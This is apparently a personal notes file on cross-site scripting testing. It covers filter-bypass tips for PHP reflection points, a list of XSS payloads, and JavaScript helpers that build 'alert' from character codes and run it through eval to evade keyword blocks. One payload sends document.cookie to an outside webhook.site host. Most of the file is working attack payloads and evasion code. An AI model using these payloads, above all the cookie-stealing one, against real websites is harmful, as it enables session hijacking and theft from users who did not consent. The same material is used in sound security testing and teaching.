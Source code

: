 # NOTES
   1. Whenever you try any payload for xss.
      1) If value is reflected in response.
      2) If any special characters are html encoded??
   2. What if script or any malicious word is blocked?
      1) There are multiple ways to execute javascript
      2) for eg
      3) in case we are allowed to paste link and it is referenced directly in a HREF tag then <a href="javascript:alert(1)"/>google</a> this payload can be used.
      4) div tag, img tag, and there are many tags who has javascript events loaded.
   3. What if alert is blocked and script is not blocked
      1) convert ascii value of alert and payload to string and paste it in eval, if script is not blocked ... very rare.
   4. What if, we can escape the js by single quotes and comment?
   5. What if, special characters are html encoded?
      1) Here, it is common in php to use htmlentities as encoding function.
      2) But, if we do not set ENT_QUOTES flag...function won't encode ' (single quotes) and we can use it to escape it.
   6. Sometimes,  developer used and trusted PHP_SELF which is the path provided by the user. 
      1) So, this time, if index.php is where response is reflected, try to do something like this -> /index.php/XSS_Payload
      2) Check the source code, if /index.php/1 is reflected in forms tag, then replace 1 with XSS_Payload



# Payloads I used
   ```
   <script>alert(1)</script>
   <script>eval("ale"%2B"rt(1)")</script>
   <script>prompt(1)</script>
   <Script>alert(1)</Script>
   <scr<script>ipt>alert(1)</scr</script>ipt>
   <a href="google.com" onmouseover="alert(1)">google</a>
   <a href="google.com" onmouseout="alert(1)">google</a>
   <a href="google.com" onmousemove="alert(1)">google</a>
   <a href="google.com" onclick="alert(1)">google</a>
   <a href="google.com" onClick="alert(1)">google</a>
   <a href="javascript:alert(1)"/>google</a>
   <img src="zzzz" onErRor="alert(1)"/>
   <div onmousemove="alert(1)" onmouseout="alert(1)"></div>
   "><script>alert(1)</script>//
   '><script>alert(1)</script>//
   "><script>alert(1)</script>
   /index.php/"><script>alert(1)</script>
   #<h1><script>alert('9a9ae151-0c35-4b79-92ff-ddbf76907027')</script></h1>
   #<script>document.write('<img src="webhook.site?c="'%2Bdocument.cookie%2B'"/>')</script>
   <script></script>
   ```

# Functions
   ```
   // --------------------------alert is blocked-----------------------------
   function convertor(num){
      return num.toString().split('').map(Number).map(n => (n || 10) + 64).map(c => String.fromCharCode(c)).join('');
   }

   function asciitochar(arr){
      xd = arr.map(c => String.fromCharCode(c)).join('')
      return xd;
   }

   function toascii(strs){
      xd = strs.split('').map(c => c.charCodeAt(c))
      return xd;
   }

   /* 1 - 49
   2 - 50
   3 - 51
   4 - 52
   5 - 53
   6 - 54
   7 - 55
   8 - 56
   9 - 57 */

   console.log(convertor(3))
   console.log(asciitochar([97, 108, 101, 114, 116, 40, 39, 57, 97, 57, 97, 101, 49, 53, 49, 45, 48, 99, 51, 53, 45, 52, 98, 55, 57, 45, 57, 50, 102, 102, 45, 100, 100, 98, 102, 55, 54, 57, 48, 55, 48, 50, 55, 39, 41]))
   console.log(toascii("'"))

   /* [57, 97, 57, 97, 101, 49, 53, 49, 45, 48, 99, 51, 53, 45, 52, 98, 55, 57, 45, 57, 50, 102, 102, 45, 100, 100, 98, 102, 55, 54, 57, 48, 55, 48, 50, 55] */

   // [97, 108, 101, 114, 116]
   /* [97, 108, 101, 114, 116, 40, 55, 42, 55, 41] */
   /* console.log(asciitochar()) */
   /* console.log(eval([97, 108, 101, 114, 116, 40, 55, 42, 55, 41].map(c => String.fromCharCode(c)).join('')) */
   /* console.log(eval([57, 97, 57, 97, 101, 49, 53, 49, 45, 48, 99, 51, 53, 45, 52, 98, 55, 57, 45, 57, 50, 102, 102, 45, 100, 100, 98, 102, 55, 54, 57, 48, 55, 48, 50, 55].map(c => String.fromCharCode(c)).join(''))) */

   /* [NaN, 97, NaN, 97, 101, NaN, NaN, NaN, 45, 48, 99, NaN, NaN, 45, NaN, 98, NaN, NaN, 45, NaN, NaN, 102, 102, 45, 100, 100, 98, 102, NaN, NaN, NaN, 48, NaN, 48, NaN, NaN] */

   /* console.log(eval([97, 108, 101, 114, 116, 40, 39, 57, 97, 57, 97, 101, 49, 53, 49, 45, 48, 99, 51, 53, 45, 52, 98, 55, 57, 45, 57, 50, 102, 102, 45, 100, 100, 98, 102, 55, 54, 57, 48, 55, 48, 50, 55, 39, 41].map(c => String.fromCharCode(c)).join(''))) */

   console.log(eval([97, 108, 101, 114, 116, 40, 39, 57, 97, 57, 97, 101, 49, 53, 49, 45, 48, 99, 51, 53, 45, 52, 98, 55, 57, 45, 57, 50, 102, 102, 45, 100, 100, 98, 102, 55, 54, 57, 48, 55, 48, 50, 55, 39, 41].map(c => String.fromCharCode(c)).join('')))

   // --------------------------------------------------------------------------
   ```